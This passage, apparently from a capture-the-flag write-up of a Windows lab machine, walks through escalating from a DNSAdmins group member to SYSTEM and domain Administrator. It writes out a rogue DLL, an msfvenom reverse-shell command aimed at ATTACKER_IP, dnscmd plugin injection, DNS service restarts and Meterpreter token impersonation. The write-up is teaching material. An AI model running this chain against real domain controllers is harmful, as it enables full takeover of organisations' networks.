

the “*system”* function call line was replaced by `system("c:\\\\Users\\\\ryan\\\\Documents\\\\shell.cmd");` to avoid any C++ key escape issues.

Then, because I couldn’t use Visual Studio Code (from a macOS machine) in order to compile the code that would generate the DLL, the `x86_64-w64-mingw32-g++` compiler was used (from a KALI machine) to address the problem encountered. (the compiler was fully installed through `sudo apt update && sudo apt install -y mingw-w64 g++-mingw-w64-x86-64` to avoid further missing libraries issues).

It was needed to append the `-shared` option to the command in order to use DllMain instead of WinMain that would generate `.exe` data file.



Once the rogue DLL was created, it has been transferred (in pair with the `nc.exe` binary) to the target system through a Python server and the `Invoke-WebRequest` living off the land Powershell command, as demonstrated below:



Here was the manual DLL crafting method. However, `msfvenom` was also able to generate a payload through providing `-f dll` which specified payload data. The following standalone command that could be stealthier since Meterpreter runs in memory:

`msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=ATTACKER_IP LPORT=MULTI_HANDLER_PORT -o malicious.dll`

Then, the called function was tested through the following command (from the Windows system):

`rundll32.exe .\malicious.dll,DnsPluginInitialize`



It worked; the rogue DLL could be treated as a legitimate DNS plugin through the export method deployed, making the staged-payload execution successful.
However, privilege escalation was not achieved yet; the *Meterpreter* session was created as the same user because the DLL was treated through the `rundll32.exe` binary that was executed from the *ryan’*s user session. However, the DNS server could be abuse through the `dnscmd` Windows utility that allows administrators to administrate the server. This means that the system could be forced to execute the malicious code under the `NT AUTHORITY\SYSTEM` task process. Since the rogue DLL has been validated, we could inject it in the target DNS configuration by using the administrative utility explained above, as the `ryan` user.

The following command could be executed to abuse the DNS server, hosted on the `Resoluted` Domain Controller targeted machine so far: 

`dnscmd Resolute /config /serverlevelplugindll C:\PATH\TO\DLL`



As shown, the command execution was successful, making the rogue DLL injected and ready to load at the **`DNS`** service’s start; which could be triggered by simply stopping/restarting it through the following command:

`sc.exe \\Resolute stop DNS`

`sc.exe \\Resolute start DNS`

Let’s summarize a bit before moving on. What just happened?

This underestimated privilege escalation phase was caused by a sensitive group ownership that allowed, through abusing user’s administrative privileges over the DNS server, to load a malicious DNS Plugin DLL through the **`*DNS`*** service ******task execution <u>itself.</u> Since the compromised user “ryan” also had local system privileges that allowed him to manage the DNS service from the `Resolute` DC machine, the last commands mentioned were executed to treat the spoofed DNS plugin, thereby triggering the payload.

(`multi_handler`’s listener was used to listen in the background to catch the reverse shell)



The Meterpreter session returned successfully under the process of `NT AUTHORITY\SYSTEM`, the account responsible of  `dns.exe` process execution associated with the DNS service, which also triggered the rogue DLL injected. Since this privileged local account have by default the `SeImpersonatePrivileges` system permissions, users’s tokens could be abused in order to lead an **impersonation attack**. There is two methods that are permitted by the Metaspoit’s Meterpreter shell. As explained before, since Meterpreter runs in process memory (mostly within the powershell.exe process), migration could allows to hijack a user’s **Primary Token** associated with the targeted process. the built-in `ps` command could list what’s available on the machine:



As shown, a process migration could be performed to the `cmd.exe` process in order to impersonate the privileged **`Administrator`** user. Thus, achieving DC’s local Administrator user account takeover results in a total compromise of the domain. The `migrate -N cmd.exe` command could be executed to migrate to the command prompt process and abuse the user’s Primary Token identity to hijack its session through impersonation.



Thereby granting elevated privileges on the machine:



The second more straightforward technique involves using the `incognito` Meterpreter’s module, which could be load through `load incognito`. The `list_tokens -u` command could then be used to list available tokens for impersonation. However, this method is quite deprecated.

The root flag could be accessed in the `C:\Users\Administrator\Desktop` directory.



MACHINE COMPLETED

## Conclusion / Personal Review

This machine was very inspiring. Comprehensive enumeration was necessary to obtain the initial foothold, while emphasizing the importance of respecting the password security policies within an organization, no matter the size. Privilege escalation required personal research and was very instructive, especially when we had to deal with a DLL written in C++, even though this technique seems less stable and less well-known than the payload generated by `msfvenom` . I also loved the *DNSAdmins* group permissions abuse. That’s all for today!

**Thank you for reading :)**
